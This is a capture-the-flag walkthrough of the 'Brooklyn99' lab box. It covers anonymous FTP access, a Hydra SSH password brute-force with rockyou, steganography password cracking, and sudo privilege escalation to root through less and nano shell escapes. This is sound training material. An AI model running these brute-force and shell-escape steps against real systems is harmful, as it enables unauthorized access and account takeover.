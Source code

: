 # Brooklyn99 CTF
export ip=10.10.15.26
## Enumeration
Going to the site and checking the html we can see this 
```html 
<!-- Have you ever heard of steganography? -->
```
**Intersting**   
There is 2 intended way of rooting the box. 
------------
# Method one
### Nmap scan 
```bash
└─# nmap 10.10.15.26 -T5   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-26 07:33 EST
Nmap scan report for 10.10.15.26
Host is up (0.21s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
````
### FTP 
I didnt check if FTP has **Anonymous** login enabled but tried it and we can login as anonymous. 

navigating  through we found this file
```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
ftp> get note_to_jake.txt
```
We can download the text file to your machine through get. (you can also use mget command)
The note we found is as follow
>From Amy,

>Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

This might come in handy knowing jake ```"Detective Jake Peralta(holts voice)"``` uses weak password :).

**``Username : jake``**
lets try to brute force the accound jake with rock you

### Hydra
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt  10.10.15.26  ssh -t 4
```  
we used **jake** as the user and used argument **-P** to specify our world list with out IP and port we are attacking which is **ssh** 
``` bash
host: 10.10.15.26   login: jake   password: 987654321
```  
Oh dear jake u failed us hope this wont let me in .  
```ssh jake@'ur_ip_here'```  
And we are in. **Oh Jake Peralta Amy would be disappointed**

## Privilege Escalation
```bash
jake@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
jake@brookly_nine_nine:~$ 
```
intersting jake can run /usr/bin/less as sudo. Lets go to [gtfobins.github.io](gtfobins) to check how we can privilege escalate our way.   
By searching less we found a way to escalte. We can run less binary as a superuser. we can spawn a shell with higher privilage 
```sudo less /etc/profile ```
```!/bin/sh```


```bash
jake@brookly_nine_nine:~$ sudo less /etc/profile
# whoami
root
# cd /root
# ls
root.txt
# cat root.txt
```
>-- Creator : Fsociety2006 --
>Congratulations in rooting Brooklyn Nine Nine
>Here is the flag: 63a9f0ea*********96b649e85481845
>
>Enjoy!!

### Forgot the user flag but here it is 
----------------
# Method 2
## Steganography
[https://0xrick.github.io/lists/stego](0xrick) Has good resources on Steganography tools to use.  
Lets explore some  
```bash
└─# exiftool brooklyn99.jpg 
ExifTool Version Number         : 
File Name                       : brooklyn99.jpg
Directory                       : .
File Size                       : 68 KiB
File Modification Date/Time     : 2020:05:26 05:01:39-04:00
File Access Date/Time           : 2022:02:26 05:38:36-05:00
File Inode Change Date/Time     : 2022:02:26 05:35:43-05:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
Image Width                     : 533
Image Height                    : 300
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 533x300
Megapixels                      : 0.160
````
THis is the exiftool you can run more enumration using other toolds like **file** and **string**  
Running string returned lot of strings inside. Maybe we can check those. But an intersting thing to notice is when we tried to check if there is anyting inside the image using **steghide** it asks for a password. So lets run **stegcracker** to crack the password with common passwords.  


```bash
└─# stegcracker brooklyn99.jpg /usr/share/wordlists/rockyou.txt 

Tried 20203 passwords
Your file has been written to: brooklyn99.jpg.out
**** //<= password

```` 
lets now go and extract the file inside the image.
```bash
└─# steghide extract -sf brooklyn99.jpg                        
Enter passphrase: 
wrote extracted data to "note.txt".
 ```
This is the note that is extracted
>Holts Password:
>**********@ninenine

>Enjoy!!

We got holts password. using hold as user name and the password we found we are in
```bash
└─# ssh holt@10.10.45.249
holt@brookly_nine_nine:~$ whoami
holt
```
## Privilege Escalation
Captain Ray Holt is can run **/bin/nano** binary as sudo . **Intersting**   
Going to gtfobin we found this
```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```
lets run it 


```bash
holt@brookly_nine_nine:~$ sudo nano

````
this will take us to nano Clicking control R and control x will enable us to execute system commands ruuning 
```reset; sh 1>&0 2>&0``` will give us shell as root

### Proof of concept 
```bash

Command to execute: reset; sh 1>&0 2>&0#                                                                            
# whoami
root
# 
````
We have found both ways to root the box. 
--------